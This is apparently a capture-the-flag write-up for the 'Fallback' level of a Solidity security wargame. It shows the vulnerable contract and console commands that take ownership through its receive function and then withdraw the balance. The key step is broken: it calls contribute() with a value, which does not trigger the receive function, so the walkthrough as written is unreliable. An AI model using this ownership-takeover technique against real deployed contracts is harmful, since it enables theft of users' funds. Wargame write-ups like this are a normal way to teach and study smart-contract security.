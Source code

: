 # Level 1 - Fallback

### Objectives

The objectives of this level are as follows:

1. Claim ownership of the contract
2. Reduce its balance to 0

### Contract

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

### Solution

We are going to exploit the fallback function within this contract, namely:

```
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```

According to Solidity documentation, "The fallback function is executed on a call to the contract if none of the other functions match the given function signature, or if no data was supplied at all and there is no receive Ether function. The fallback function always receives data, but in order to also receive Ether it must be marked payable."

First, we are going to contribute to the contract by sending some value less than 0.001 ether:

```
await contract.contribute.sendTransaction({ from: player, value: toWei('0.0005')})
```

We can verify that we successfully contributed to the contract by calling the getContribution() function:

```
await contract.getContribution().then(v => v.toString())
```

Next, we are going to send some ether to the contract in order to execute the fallback function:

```
await contract.contribute.sendTransaction({value: "100"})
```

By sending ether to the contract, we have become the contract owner. We can verify this by ensuring that the following outputs `true`:

```
await contract.owner() === player
```

Finally, we can empty the contract and complete the level:

```
await contract.withdraw()
```

Done!
